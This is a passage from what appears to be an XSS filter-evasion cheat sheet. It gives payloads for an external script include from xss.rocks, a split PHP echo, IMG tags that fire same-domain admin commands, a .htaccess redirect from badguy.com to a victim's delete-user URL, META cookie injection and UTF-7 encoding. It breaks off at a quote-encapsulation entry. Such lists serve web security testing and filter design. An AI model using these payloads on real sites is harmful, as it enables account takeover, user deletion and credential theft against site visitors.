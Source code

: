 ```js
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```

## SSI (Server Side Includes)
This requires SSI to be installed on the server to use this XSS vector. I probably don’t need to mention this, but if you can run commands on the server there are no doubt much more serious issues:



PHP
Requires PHP to be installed on the server to use this XSS vector. Again, if you can run any scripts ## remotely like this, there are probably much more dire issues:

```
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

IMG Embedded Commands
This works when the webpage where this is injected (like a web-board) is behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc…. This is one of the lesser used but more useful XSS vectors:

```js
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

IMG Embedded Commands part II
This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal <IMG SRC="httx://badguy.com/a.jpg"> could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector (thanks to Timo for part of this):
```
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```
Cookie Manipulation
Admittedly this is pretty obscure but I have seen a few examples where <META is allowed and you can use it to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim’s cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc…):

```js
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

UTF-7 Encoding
If the page that the XSS resides on doesn’t provide a page charset header, or any browser that is set to UTF-7 encoding can be exploited with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don’t need the charset statement if the user’s browser is set to auto-detect and there is no overriding content-types on the page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding type which is why it is marked as completely unsupported. Watchfire found this hole in Google’s custom 404 script.:

```js
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

```
XSS Using HTML Quote Encapsulation
This was tested in IE, your mileage may vary. For performing XSS on sites that allow <SCRIPT> but don’t allow <SCRIPT SRC... by way of a regex filter /\<script\[^\>\]+src/i:
